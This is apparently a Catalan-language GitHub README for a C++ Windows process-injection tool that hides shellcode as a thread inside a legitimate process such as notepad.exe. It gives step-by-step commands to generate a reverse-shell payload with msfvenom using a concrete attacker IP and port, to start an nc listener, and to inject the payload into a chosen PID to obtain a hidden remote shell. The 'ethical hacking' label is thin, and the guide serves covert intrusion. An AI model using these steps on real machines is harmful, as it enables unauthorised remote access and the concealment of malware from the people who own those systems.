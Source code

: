 ## Inject
Simple windows process code injection

## POC
El repte està en injectar un tros de codi executable dins un procés que ja es troba en execució. D'aquesta manera, el codi queda ocultat dins l'arbre de processos, com un fil d'execució dins un procés conegut, com per exemple, explorer.exe, notepad.exe, calc.exe, etc. El mateix que explico jo aquí, està explicat en molts llocs a internet.

## Descripció
En el repositori trobem una solució en c++ que mitjanant l' API de windows injecta codi en un procés que rep per la línia de comandes. El codi a injectar es troba en una variable **shellcode** en format de Bytecode. En l'exemple he utilitzat un petit codi que executa una shell inversa (reverse shell) de 6u bits (x64). Aquest codi, pot ser qualsevol cosa que se’ns passi pel cap. Però, ha de ser petit, quan més petit millor, ja que s'injecta en la memòria del procés. Podem trobar molt codi d'exemple per internet, un bon lloc és
https://www.exploit-db.com/shellcodes.

## Cas d'ús
El ByteCode (https://es.wikipedia.org/wiki/Bytecode) que utilitzat jo, no és funcional en qualsevol estació de treball, ja que està fet a mida perquè es connecti a un ordinador remot que jo he utilitzat.
Per fer la prova, calen dos ordinadors. Jo he utilitzat un Kali/linux per generar el ByteCode i per obrir un Netcat escoltat en un port (4444), on si tot va bé és connectarà el procés injectat.

Per generar el ByteCode he utilitzat una utilitat **msfvenom** del Framework Metasploit (https://www.metasploit.com/), instal.lat a Kali. Té moltes opcions, es digne d'estudi. Pot fer sortides de codi per diferents llenguatges i tecnologies. Pel cas que ens toca:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f c

Ex:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.28.123.152 LPORT=4444 -f c
```
La sortida la assignem a la variable **shellcode**. Tot seguit en un terminal de la Kali, engeguem el Netcat escoltant en el port triat.
```
nc -llvp 4444
```
Aquí, si tot va bé, és on ens trobarem una shell de windows de PC on hem injectat el codi.

Ara el en PC windows, on hi tenim el nostre programa **inject.exe**, engeguem per exemple el **notepad.exe**. Amb l'explorador de processos de windows, mirem el número de procés del **notepad.exe** (No tanquem l’arbre de processos, perquè això podem observar els fils d'execució que té). Tot seguit executem:
```
inject.exe [PID Notepad.exe]
Ex:
inject.exe 12345
```
Si tot ha anat bé, al Kali tenim una shell del windows amb els permisos d'usuari que té el procés del Notepad.exe a l'estació Windows. I a l'arbre de processos, un fil penjant del **Notepad.exe**

A partir d'aquí imaginació (no vull donar idees). És un pas necessari si et vols iniciar en el Hacking Ètic.

**La cançó** (Sempre escolto música quan escric, programo, penso en solucions...)

https://www.youtube.com/watch?v=bwNzGT-UX7c


[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/jcastellsgH)

:_)
